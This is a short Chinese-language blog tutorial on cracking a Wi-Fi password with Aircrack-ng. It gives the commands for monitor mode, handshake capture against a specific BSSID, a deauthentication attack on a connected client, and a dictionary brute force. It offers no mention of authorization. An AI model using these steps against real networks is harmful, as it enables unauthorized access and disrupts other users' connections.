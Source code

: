 ```yaml
---
title: Aircrack-ng 破解WIFI密码
date: 2018-09-20 
tags: kali
layut: post
music-id: 27968003
---
```


### 支持监听模式的无线网卡
我这里使用的是**rt3070**
一般**8187**和**3070**的网卡都可以开启监听模式。
![无线网卡](http://da1sy.github.io/assets/images/9-Yue/wifi-1.jpg)
### 1.网卡开启监听模式
> ⚡/home/da1sy # airmon-ng start wlan1

![1](http://da1sy.github.io/assets/images/9-Yue/wifi-2.jpg)
开启监听模式后网卡名子后坠都会更改为mon

### 2.搜索广播中的WIFI
> ⚡/home/da1sy # airodump-ng -a wlan1mon

![2](http://da1sy.github.io/assets/images/9-Yue/wifi-3.jpg)
### 3.对指定的网络进行抓包
> ⚡/home/da1sy/wifi # airodump-ng -w add --bssid 44:97:5A:9B:38:8A -c 7 wlan1mon

![3](http://da1sy.github.io/assets/images/9-Yue/wifi-4.jpg)
**-w**是要保存的包名，**--bssid**是目标网络的MAC地质，**-c**是该网络的信道
### 如果抓不到握手包，就用下面命令让目标重新连接网络
> ⚡/home/da1sy/wifi # aireplay-ng -0 5 -a 44:97:5A:9B:38:8A -c 2C:D9:74:69:B4:85 wlan1mon

![4](http://da1sy.github.io/assets/images/9-Yue/wifi-5.jpg)
### 4.开始暴力破解
> ⚡/home/da1sy/wifi # aircrack-ng -w /media/da1sy/软件/DA1SY/password/supper955.txt add-01.cap



